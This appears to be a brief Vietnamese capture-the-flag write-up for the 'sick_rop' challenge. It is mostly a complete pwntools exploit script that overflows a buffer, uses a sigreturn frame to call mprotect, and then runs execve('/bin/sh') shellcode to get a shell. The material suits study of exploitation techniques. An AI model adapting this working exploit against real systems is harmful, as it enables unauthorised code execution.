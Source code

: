 địa chỉ 0x4010b8 là thằng mà ta có được khi debug , ta thấy dữ liệu sẽ nhập từ đây nên ta sẽ overwrite RIP để trỏ đến thằng này 


full script : 

```
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./sick_rop',checksec=False)
context.arch = 'amd64'
p = process()
#gdb.attach(p,gdbscript='''
#           b*0x0000000000401040
#           b*0x000000000040104e



#        ''')
syscall = 0x0000000000401014

frame = SigreturnFrame()
frame.rax = 0xa
frame.rdi = 0x400000
frame.rsi = 0x4000
frame.rdx = 0x7
frame.rip = syscall
frame.rsp = 0x4010d8


payload = b'a'*40
payload += p64(exe.sym.vuln)
payload += p64(syscall)
payload += bytes(frame)

input()
p.send(payload)
p.recv()


p.send(b'a'*15)
p.recv()

shellcode = asm('''
            movabs r10, 29400045130965551
            push r10
            xor rsi,rsi
            xor rdx,rdx
            mov rdi,rsp

            mov rax,0x3b
            syscall

            ''')
payload1 = shellcode
payload1 = payload1.ljust(40,b'p') + p64(0x4010b8)
#payload1 = shell_code.ljust(40, b'A')
#payload1 += p64(0x4010b8)
p.send(payload1)


p.interactive()
```
